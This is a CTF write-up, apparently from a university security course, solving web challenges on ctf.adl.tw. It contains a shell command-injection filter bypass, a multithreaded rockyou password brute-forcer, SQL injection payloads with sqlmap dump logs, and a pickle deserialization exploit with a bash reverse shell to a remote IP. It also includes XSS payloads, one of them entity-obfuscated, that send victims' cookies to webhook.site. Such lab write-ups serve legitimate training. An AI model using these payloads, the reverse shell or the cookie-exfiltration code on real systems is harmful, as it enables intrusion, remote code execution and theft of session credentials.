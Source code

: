 # Web CTF
We solved all problems.  
# gomai
base 64, cookie, console
<details>

![alt text](./gomai/12000.png)  
flag has 5 parts:
1. At the bottom of the html
2. At the bottom of the style.css
3. Contained in the cookie. Cookie becomes visible upon refresh.
4. In the http response header
5. Printed in console once you scroll enough times. Can be triggered by setting m=0 in the console.
</details>

# Bocchi Search Tool
shell command  


<details>

![alt text](./Bocchi_Search_Tool/12001_1.png)  
A tool help you find bocchi in json !
http://ctf.adl.tw:12001/

You input a json like string, and the program finds the "bocchi" member and prints its value.
- foot note
anything on a shell command contained in pairs of`` gets executed as commands!!!
- solution
blacklist(php)
```php
$blacklist = ['|', '&', ';', '>', '<', "\n", '?', '*', '$', '\\', 'cat', 'flag'];
```

source code(php): 
```php
system("echo '" . $_POST['json'] . "'| jq .bocchi");
```

- attack string ver 1: '`tac  fl''ag` #
```php
system("echo '" . '`tac  fl''ag` # . "'| jq .bocchi");
```
which equals:
```bash
echo ''`tac  fl''ag` # . "'| jq .bocchi
```

- attack string ver 2: '`c''at  fl''ag` #
```php
system("echo '" .'`c''at  fl''ag` # . "'| jq .bocchi");
```
</details>

# monster
wordlist, custom http headers
<details>

![error](./monster/12002.png)
## Change Your User Agent in Chrome
Open Chrome's Developer Tools by right-clicking anywhere and choosing Inspect, hitting Ctrl + Shift + I, or by pressing F12  
At the bottom of the resulting panel, you should see a section with the tabs Console, Network conditions, and What's New. Press Esc to show this if you don't see it.

On the Network conditions tab, uncheck Select automatically and you can then choose a new user agent from the list. Refresh to update the page with the new agent.

Note that this setting will revert back to normal when you close the developer panel, and only applies to your current tab.
## How to change your IP
https://chrome.google.com/webstore/detail/x-forwarded-for-header/hkghghbnihliadkabmlcmcgmffllglin/related

## Or just use this extension
https://chrome.google.com/webstore/detail/http-headers/fabjnpecogealbfoebkcjfbmdhnnfhbj?hl=en-GB

## Now, you must login
bocchi & 🤘rockyou!!!
- turns out rockyou is a passw list...
so we write a script to find the passw by brute force
```py
import requests
import numpy as np
import threading
from tqdm import tqdm
tn = 20
lines =[item.strip() for item in open(
    "./debug/rockyou.txt", "r", encoding="latin-1").readlines()]

print(len(lines))
splits = np.array_split(lines, tn)
pbar = tqdm(total=len(lines))


def request(i):
    lines = splits[i]
    for idx, pw in enumerate(lines):
        #print(pw)
        r = requests.get('http://ctf.adl.tw:12002/admin',
                         headers={"X-Forwarded-For": "127.0.0.1",
                                  "User-Agent": "STARRYBrowser",
                                  "Accept-Language": "ja-JP"}, auth=("bocchi", pw))
        if len(r.text) != 1370:
            print(pw)
            with open('./debug/pw.txt', 'w') as f:
                f.write(pw)
            #break
            exit()
        #if idx % 100 == (100 * i) / tn:
        if idx % 100 == 0:
            pbar.update(100)


for i in range(tn):
    t = threading.Thread(target=request, args=(i,))
    t.start()
```
- the password is located around 40% of rockyou
```powershell
PS D:\1111_work\1111attack_and_defense\security_2022> py .\web\monster\brute_force_multi_thread.py
14344391
 41%|███████████████████████████████████████████████████████▊                                                                                 | 5849900/14344391 [2:36:26<3:08:18, 751.83it/s]bocchio
```

- now that we have the password, we can use it to login~
</details>

# isostagram_1
sql injection
<details>

![error](./isostagram_1/12003.png)
- php src
```php

$host = 'isostagram_db';
$dbuser = 'MYSQL_USER';
$dbpassword = 'MYSQL_PASSWORD';
$dbname = 'ctf_users';
$link = mysqli_connect($host, $dbuser, $dbpassword, $dbname);

$loginStatus = NULL;
$username = $_POST['username'];
$password = $_POST['password'];

if (isset($username) && isset($password)) {
    error_log('POST: [' . $username . '] [' . $password . ']');
    if ($link) {
        $blacklist = array("union", "select", "where", "and", "or");
        $replace = array("", "", "", "", "");
        $username = str_ireplace($blacklist, $replace, $username);
        $password = str_ireplace($blacklist, $replace, $password);
        $sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";
        $query = mysqli_query($link, $sql);
        @$fetchs = mysqli_fetch_all($query, MYSQLI_ASSOC);
        if (@count($fetchs) > 0) {
            foreach ($fetchs as $fetch) {
                if ($fetch["username"] === 'kita0421' && $fetch["password"] === $password) {
                    $loginStatus = True;
                    break;
                }
                $loginStatus = False;
            }
        } else {
            $loginStatus = False;
        }
    } else {
        $loginStatus = NULL;
    }
} else {
    $loginStatus = NULL;
}
```

- ref 
[link](https://blog.csdn.net/qq_23667585/article/details/127213099?spm=1001.2101.3001.6650.3&utm_medium=distribute.pc_relevant.none-task-blog-2~default~YuanLiJiHua~Position-3-127213099-blog-88721329.pc_relevant_recovery_v2&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2~default~YuanLiJiHua~Position-3-127213099-blog-88721329.pc_relevant_recovery_v2&utm_relevant_index=4)
- payload
1. didn't work
```SQL
' O/**/R '1' = '1; UPDATE users SET `password`= '123' WH/**/ERE `username` = 'kita0421';--

```
2. didn't work
```SQL
1' OORR '1' = '1' limit 1; --
```
3. didn't work
```SQL
' UORNION select '0','kita0421','1';--
' UORNION select 'kita0421','1','0';--
' UORNION select 'kita0421','1';--
```
4. worked!!!!!!
```sql
--                     id account   pw
-1' UORNION SORELECT 0,'kita0421','pass';#
```
</details>

# isostagram_2
sqlmap
<details>

## sql injection - database
The idea is to use sqlmap to start a time based attack.
- payload must be within 50 characters.
- ref 1: How to use a custom tamper.py
https://www.cnblogs.com/hetianlab/p/16012663.html
- ref 2: How to use sqlmap.
https://hackertarget.com/sqlmap-post-request-injection/
- 題目:
http://ctf.adl.tw:12003/
- First use burp to obtain a sample of the post request
    - download [Burp(community suite)](https://portswigger.net/burp)
    - open browser
    - configure burp to intercept http requests
    - copy the content of the post request to search-test.txt
    - sqlmap
1. Didn't work
```powershell
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -u 'http://ctf.adl.tw:12003/' --data "username=123&password=123" --level=5 --risk=3 --tamper=my_tamper/my_tamper.py
```
2. Didn't work
```powershell
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username password --tamper=my_tamper/my_tamper.py
```

3. Worked
```powershell
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username password -D ctf_users -T users -C password username --tamper=my_tamper/my_tamper.py --dump
```

- Sqlmap logs
```powershell
PS D:\1111_work\1111attack_and_defense\sqlmap> py .\sqlmap.py -h
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.12.7#dev}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

Usage: sqlmap.py [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    These options do not fit into any other category

    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'

Press Enter to continue...
PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username --tamper=my_tamper/my_tamper.py --dump-all
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12.7#dev}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:17:53 /2022-12-22/

[10:17:53] [INFO] parsing HTTP request from './my_tamper/search-test.txt'
[10:17:53] [INFO] loading tamper module 'my_tamper'
[10:17:54] [INFO] resuming back-end DBMS 'mysql'
[10:17:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=eBpr' RLIKE SLEEP(5)-- itvC&password=&submit=OPis
---
[10:17:54] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:17:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[10:17:54] [INFO] sqlmap will dump entries of all tables from all databases now
[10:17:54] [WARNING] cannot properly display (some) Unicode characters inside your terminal ('cp950') environment. All unhandled occurrences will result in replacement with '?' character. Please, find proper character representation inside corresponding output files

[10:17:54] [WARNING] ?前??字列表如下，?注意修改:
['UNION', 'SELECT', 'WHERE', 'AND', 'OR']
[10:17:54] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[10:17:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[10:19:31] [INFO] adjusting time delay to 1 second due to good response times
3
[10:19:31] [INFO] retrieved: information_schema
[10:26:12] [INFO] retrieved: performance_schema
[10:32:38] [INFO] retrieved: ctf_users
[10:36:16] [INFO] fetching tables for databases: 'ctf_users, information_schema, performance_schema'
[10:36:16] [INFO] fetching number of tables for database 'ctf_users'
[10:36:16] [INFO] retrieved: 1
[10:36:23] [INFO] retrieved: users
[10:38:09] [INFO] fetching number of tables for database 'performance_schema'
[10:38:09] [INFO] retrieved: 8
[10:38:30] [INFO] retrieved: gl
[10:40:02] [ERROR] invalid character detected. retrying..
[10:40:02] [WARNING] increasing time delay to 2 seconds
obal_statu


[*] ending @ 10:48:13 /2022-12-22/

PS D:\1111_work\1111attack_and_defense\sqlmap> py sqlmap.py -r './my_tamper/search-test.txt'-p username password -D ctf_users -T users -C password username --tamper=my_tamper/my_tamper.py --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12.7#dev}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:48:28 /2022-12-22/

[10:48:28] [INFO] parsing HTTP request from './my_tamper/search-test.txt'
[10:48:28] [INFO] loading tamper module 'my_tamper'
[10:48:28] [INFO] resuming back-end DBMS 'mysql'
[10:48:28] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=eBpr' RLIKE SLEEP(5)-- itvC&password=&submit=OPis
---
[10:48:29] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:48:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 5.0.12
[10:48:29] [INFO] fetching entries of column(s) 'password' for table 'users' in database 'ctf_users'
[10:48:29] [INFO] fetching number of column(s) 'password' entries for table 'users' in database 'ctf_users'
[10:48:29] [WARNING] cannot properly display (some) Unicode characters inside your terminal ('cp950') environment. All unhandled occurrences will result in replacement with '?' character. Please, find proper character representation inside corresponding output files

[10:48:29] [WARNING] ?前??字列表如下，?注意修改:
['UNION', 'SELECT', 'WHERE', 'AND', 'OR']
[10:48:29] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[10:49:10] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
7
[10:49:40] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[10:50:10] [INFO] adjusting time delay to 1 second due to good response times
ADL{w474sh1n0furun3muh4k174k174d3su...https://youtu.be/MSnLgdQFk1c}
[11:19:11] [INFO] retrieved: alg
[11:20:29] [WARNING] Ctrl+C detected in dumping phase
Database: ctf_users
Table: users
[1 entry]
+---------------------------------------------------------------------+
| password                                                            |
+---------------------------------------------------------------------+
| ADL{w474sh1n0furun3muh4k174k174d3su...https://youtu.be/MSnLgdQFk1c} |
+---------------------------------------------------------------------+

[11:20:29] [INFO] table 'ctf_users.users' dumped to CSV file 'C:\Users\Perry\AppData\Local\sqlmap\output\ctf.adl.tw\dump\ctf_users\users.csv'
[11:20:29] [INFO] fetched data logged to text files under 'C:\Users\Perry\AppData\Local\sqlmap\output\ctf.adl.tw'

[*] ending @ 11:20:29 /2022-12-22/

PS D:\1111_work\1111attack_and_defense\sqlmap> 
```

</details>

# fukuwarai
deserialization
<details>

![123](./fukuwarai/12004.png)
1. vuln
```py
@api.post('/import')
def import_layout():
    layout = request.json.get('layout')
    layout = pickle.loads(base64.b64decode(layout))
    if dataGuard(layout):
        session['layout'] = layout
        return '1'
    return '0'
```
2. payload
```py
import pickle
import base64
import os

class RCE_revers_shell:
    def __reduce__(self):
        cmd = "bash -c \"bash &>/dev/tcp/87.87.87.87/4444<&1\""
        return os.system, (cmd,)
class RCE_get_env:
    def __reduce__(self):
        cmd="FLAG"
        return os.getenv, (cmd,)


payload = [{'id': 'hako01', 'left': 1131, 'top': RCE_get_env()}]
my_layout = base64.b64encode(pickle.dumps(payload)).decode()
print(my_layout)

```
### Pickle does not cross OS!!!!
- encoded payload looks different across linux and windows.


 
</details>

# message_board

xss
<details>


1. pressing the send button sends a post request to api.php
```html
http://ctf.adl.tw:12005/api.php?method=send
```
2. objective is to get the cookie on the server
3. iframe causes admin to send a http request to a remote link.
4. We set up a remote listener to handle http requests. We can use this [site](https://webhook.site/?fbclid=IwAR0PzMsA8CMTLpCQfhtUV38Qbh5oS-bPvotRPBz9tJCoEjsDi5j-_qM2lok#!/15777b00-a93c-4ce3-a75e-5f8afc14e2a9/26af9310-e1a9-476a-9f80-ae7d80c3823f/1).

(We may also use csp bypass.)
## payloads tried
- v1 didn't work
```html
<b onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</b>
```
- v2 (can't use onload)
```html
<iframe onload="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
- v3 (can't use +)
```html
<iframe onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
Turns out we cannot use + in the payload.
- test
```html
"/> <script>alert(0)</script> <!--
```
- v5 worked
```html
<iframe src=javascript:document.location='https://webhook.site/5b057c82-404d-4e23-a94a-c0f5d17d9259/?flag='.concat(document.cookie)>
```
- v6 also worked, generated by ./generate_payload.py
```html
<iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#102;&#101;&#116;&#99;&#104;&#40;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#119;&#101;&#98;&#104;&#111;&#111;&#107;&#46;&#115;&#105;&#116;&#101;&#47;&#50;&#49;&#55;&#48;&#99;&#55;&#99;&#56;&#45;&#57;&#52;&#57;&#99;&#45;&#52;&#49;&#100;&#49;&#45;&#56;&#52;&#55;&#57;&#45;&#53;&#100;&#49;&#48;&#97;&#57;&#55;&#54;&#48;&#56;&#52;&#101;&#63;&#102;&#108;&#97;&#103;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;&#46;&#116;&#104;&#101;&#110;&#40;&#40;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#41;&#32;&#61;&#62;&#32;&#123;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#46;&#106;&#115;&#111;&#110;&#40;&#41;&#59;&#125;&#41;&#46;&#99;&#97;&#116;&#99;&#104;&#40;&#40;&#101;&#114;&#114;&#111;&#114;&#41;&#32;&#61;&#62;&#32;&#123;&#99;&#111;&#110;&#115;&#111;&#108;&#101;&#46;&#108;&#111;&#103;&#40;&#39;&#110;&#111;&#39;&#41;&#59;&#125;&#41><iframe>
```
    The iframe element in this code is being used to load a script from a remote URL using the src attribute.  

    The URL is encoded using HTML character references, which are used to represent characters that are not part of the standard ASCII character set. For example, &#106; represents the letter "j", &#97; represents the letter "a", and so on.   

    When the HTML code is parsed by a web browser, these character references are converted back into their corresponding characters, so the src attribute in this iframe element would be interpreted as a URL that begins with "javascript:fetch(...".  

    The iframe element also contains a script that uses the fetch() function to retrieve data from the specified URL and then execute it as a JavaScript script. This can be a security risk, as it allows the script to potentially access and manipulate the current document and any data it contains. It's generally a good idea to avoid executing arbitrary scripts from untrusted sources in this way.

![`](./message_board/recieving_http_request.png)
</details>